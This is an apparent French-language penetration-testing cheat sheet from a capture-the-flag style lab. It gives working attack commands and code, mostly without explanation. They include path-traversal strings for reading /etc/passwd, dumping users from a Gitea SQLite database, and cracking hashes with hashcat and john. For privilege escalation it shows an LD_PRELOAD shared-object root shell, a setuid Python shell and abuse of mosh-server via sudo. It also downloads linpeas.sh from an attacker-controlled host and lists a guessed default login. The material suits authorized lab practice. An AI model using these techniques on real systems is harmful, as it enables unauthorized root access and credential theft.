 # 🛠️ Cheat Sheet — Techniques & Outils

## 🔍 Reconnaissance

```bash
nmap -sC -sV -p- -oN scan.txt <ip>     # Scan TCP complet avec scripts par défaut
nmap -sU <ip>                          # Scan UDP (top ports)
snmpwalk -v2c -c public <ip>          # Enumération SNMP
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Inspection manuelle : robots.txt, sitemap.xml

## 🐚 Exploitation Web

LFI (Local File Inclusion)
```bash
../../../../etc/passwd
%2e%2e%2f        # Encodage URL pour contourner les filtres
```
Téléchargement de fichiers via curl ou navigateur
IDOR (Insecure Direct Object Reference)
Manipulation d’ID dans une URL :
```bash
http://<ip>/data?id=1
```
## 🗃️ SQLite3
```bash
sqlite3 gitea.db
.tables                         # Lister les tables
SELECT * FROM user;            # Récupérer les utilisateurs
```
## 🔐 Crack de mots de passe

Format Hashcat avec salt :
```bash
username:$dynamic_61$salt$hash
hashcat -m 20 -a 0 hash.txt wordlist.txt
John the Ripper
john --format=raw-md5 hash.txt --wordlist=rockyou.txt
```

## 🔑 SSH
```bash
ssh user@ip
```
## 🚀 Privesc (Linux)

Enumération :
```bash
sudo -l      # Liste des commandes sudo accessibles
LD_PRELOAD
```
### 1. Code C (shell.c) :
```bash
void _init() {
    setuid(0);
    system("/bin/bash");
}
```
### 2. Compilation :
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
### 3. Exécution :
```bash
LD_PRELOAD=./shell.so sudo <commande_vulnérable>
SetUID Python :
import os
os.setuid(0)
os.system("/bin/bash")
mosh-server
mosh --server="sudo /usr/bin/mosh-server" localhost
```
## 🔄 Transfert de fichiers

Depuis Attaquant :
```bash
python3 -m http.server 8000
```
Depuis Cible :
```bash
wget http://<attacker-ip>:8000/linpeas.sh
```
## 🔍 Analyse de configuration

Analyse de Dockerfile, .yml → chemins d’accès (/var/www/daloradius)
URLs cachées dans les configs :
/daloradius/app/operators/login.php

## 🔑 Credential Discovery

Bruteforce simple : administrator:radius
## 🧰 Outils utilisés

Recon : nmap, snmpwalk
Crack : john, hashcat
Analyse réseau : wireshark, .pcap
Privesc : linpeas.sh, mosh
Transfert : wget, python3 -m http.server
Accès distant : ssh, mosh